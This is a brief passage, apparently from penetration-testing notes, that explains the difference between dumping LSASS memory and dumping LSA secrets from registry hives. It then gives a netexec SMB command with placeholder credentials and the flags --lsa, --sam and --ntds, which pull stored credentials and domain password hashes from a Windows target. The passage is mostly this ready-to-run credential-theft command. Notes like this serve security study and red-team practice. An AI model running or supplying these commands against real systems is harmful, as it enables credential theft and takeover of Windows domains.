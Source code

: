 - **Dumping LSASS = dumping memory of `lsass.exe` → creds in RAM.**
- **Dumping LSA secrets = dumping registry hives (SAM + SYSTEM + SECURITY).**
```
netexec smb $target -u 'sqlsvc' -p 'pass' 
									  --lsa
					 														    # if it fails try: --lsa secdump
									  --sam
									  --ntds
```

